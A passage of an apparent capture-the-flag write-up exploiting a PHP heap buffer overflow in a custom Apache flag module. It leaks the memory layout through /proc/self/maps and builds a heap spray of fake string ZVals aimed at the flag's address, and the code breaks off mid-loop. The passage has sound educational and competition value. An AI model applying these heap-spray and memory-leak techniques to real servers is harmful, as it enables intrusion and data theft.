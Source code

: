 ## Stage 2: Exploiting a PHP heap buffer overflow with large buffers

One thing to note is that we can also read `/proc/self/maps`, so we know where
the flag lies. Also, since the server runs on a 32-bit Linux, ASLR is pretty
weak. Plus, with the `/proc/self/maps` leak, it is easy to allocate a buffer
whose (approximate) location we know:

{% highlight php %}
$payload = str_repeat('a', 1<<26);
echo file_get_contents('/proc/self/maps');
{% endhighlight %}

Output:

    565e4000-5666f000 r-xp 00000000 08:01 401642                             /usr/sbin/apache2
    5666f000-56671000 r--p 0008b000 08:01 401642                             /usr/sbin/apache2
    56671000-56673000 rw-p 0008d000 08:01 401642                             /usr/sbin/apache2
    56673000-56676000 rw-p 00000000 00:00 0
    58133000-58170000 rw-p 00000000 00:00 0                                  [heap]
    58170000-582dc000 rw-p 00000000 00:00 0                                  [heap]
    582dc000-58304000 rw-p 00000000 00:00 0                                  [heap]
    f1b09000-f5b4a000 rw-p 00000000 00:00 0   <- this block was not there before
    f5b4a000-f639b000 r-xp 00000000 08:01 531683                             /usr/lib/apache2/modules/libphp5.so
    f639b000-f63fc000 r--p 00850000 08:01 531683                             /usr/lib/apache2/modules/libphp5.so
    ...
    f73a7000-f73a8000 r-xp 00000000 08:01 271437                             /usr/lib/apache2/modules/mod_flag.so
    f73a8000-f73a9000 r--p 00000000 08:01 271437                             /usr/lib/apache2/modules/mod_flag.so
    f73a9000-f73aa000 rw-p 00001000 08:01 271437                             /usr/lib/apache2/modules/mod_flag.so
    f73aa000-f73ac000 rw-p 00000000 00:00 0

So we know that our block is allocated in the region starting at 0xf1b09000,
and we know the flag 2 is at `0xf73a7000 + 0x2080` (the offset can be found with
a disassembler). Our idea now is to fake a string
[ZVal](http://php.net/manual/de/internals2.variables.intro.php) inside the big
`$payload` string. Later we will exploit the extension module by overwriting a heap
buffer to point to that ZVal, in a way that we can read it after. Because we
didn't want to fix offsets all the time, we did a proper heap spray:

{% highlight php %}
for ($i = 0; $i < (1<<26); $i += 0x1000) {
  // value.str.val = address of flag2
  $payload[$i] = "\x80";
  $payload[$i+1] = "\x90";
  $payload[$i+2] = "\x3a";
  $payload[$i+3] = "\xf7";

  // value.str.len
  $payload[$i+4] = "\x40";
  $payload[$i+5] = "\0";
  $payload[$i+6] = "\0";
  $payload[$i+7] = "\0";

  // refcount__gc
  $payload[$i+8] = "\1";
  $payload[$i+9] = "\0";
  $payload[$i+10] = "\0";
  $payload[$i+11] = "\0";

  // type
  $payload[$i+12] = "\x06";